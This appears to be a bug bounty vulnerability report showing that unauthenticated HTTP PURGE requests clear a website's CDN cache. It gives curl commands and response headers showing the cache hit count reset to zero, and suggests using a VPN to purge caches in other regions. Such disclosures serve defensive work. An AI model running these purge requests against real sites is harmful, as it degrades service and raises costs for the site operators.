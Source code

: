 
# Not authenticated Cache purges

## Summary
Is possible to use the HTTP method PURGE to clean the web app caches. That can lead to increased bandwidth costs, slower response time to users and potential Denial of Service attacks.

## Steps To Reproduce


Let's run 100 requests to see the cache hits: 

```
for v in `seq  100 ` ; do curl -s -Ik $URL ; done

HTTP/2 200 
cache-control: max-age=3600
content-type: text/html; charset=utf-8
etag: "b2b7b4a58b41dd1d56b7124542d806b2bc3d1e343306f0b6e720666eabe9330d"
last-modified: Fri, 16 Apr 2021 06:01:22 GMT
strict-transport-security: max-age=31556926; includeSubDomains; preload
accept-ranges: bytes
date: Sun, 18 Apr 2021 06:01:17 GMT
x-served-by: cache-scl19423-SCL
x-cache: HIT
x-cache-hits: 12
x-timer: S1618725677.340217,VS0,VE0
vary: x-fh-requested-host, accept-encoding
content-length: 2828

HTTP/2 200 
cache-control: max-age=3600
content-type: text/html; charset=utf-8
etag: "b2b7b4a58b41dd1d56b7124542d806b2bc3d1e343306f0b6e720666eabe9330d"
last-modified: Fri, 16 Apr 2021 06:01:22 GMT
strict-transport-security: max-age=31556926; includeSubDomains; preload
accept-ranges: bytes
date: Sun, 18 Apr 2021 06:01:17 GMT
x-served-by: cache-scl19425-SCL
x-cache: HIT
x-cache-hits: 14
x-timer: S1618725678.523580,VS0,VE0
vary: x-fh-requested-host, accept-encoding
content-length: 2828

```
Depending on the cache server responding, the value of x-cache-hits goes between 12 and 29, you might get slightly different results. 

Then, we can PURGE the cache from all servers. 

```
curl -X PURGE $URL
{ "status": "ok", "id": "19425-1618472452-15224" }
```
x-cache-hits is now 0 

```
HTTP/2 200 
cache-control: max-age=3600
content-type: text/html; charset=utf-8
etag: "b2b7b4a58b41dd1d56b7124542d806b2bc3d1e343306f0b6e720666eabe9330d"
last-modified: Fri, 16 Apr 2021 06:01:22 GMT
strict-transport-security: max-age=31556926; includeSubDomains; preload
accept-ranges: bytes
date: Sun, 18 Apr 2021 06:05:33 GMT
x-served-by: cache-scl19421-SCL
x-cache: MISS
x-cache-hits: 0
x-timer: S1618725933.432825,VS0,VE233
vary: x-fh-requested-host, accept-encoding
content-length: 2828

```
The cache server is assigned based on the IP address, is very simple to use a VPN to PURGE caches in different geo regions. 

### Supporting Material/References:
* https://hackerone.com/reports/154278




